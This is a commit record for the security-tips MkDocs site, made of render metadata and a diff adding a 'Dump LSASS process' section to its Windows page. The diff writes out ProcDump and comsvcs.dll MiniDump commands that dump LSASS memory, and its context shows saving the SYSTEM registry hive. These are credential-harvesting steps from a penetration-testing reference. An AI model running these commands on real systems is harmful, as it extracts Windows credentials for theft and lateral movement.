

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/windows.md, in a window 1280 px wide and 900 px high, scrolled down 3149 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add LSASS dump commands

````diff
--- a/docs/windows.md
+++ b/docs/windows.md
@@ -118,6 +118,21 @@ $ w32tm /query /status
 [Release Informations](https://docs.microsoft.com/fr-fr/windows/release-information/)
 
 
+### Dump LSASS process
+
+There is various methods to dump the `lsass` process memory:
+
+- Mimikatz
+- [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
+- TaskManager
+- Rundll32
+
+
+```bash
+$ procdump -accepteula -ma lsass.exe lsass.dmp
+$ Powershell -c rundll32.exe "C:\Windows\System32\comsvcs.dll", MiniDump [process ID of lsass.exe] dump.bin full
+```
+
 ### SAM and SYSTEM backup
 ```bash
 $ reg save HKLM\SYSTEM SystemBkup.hiv
````
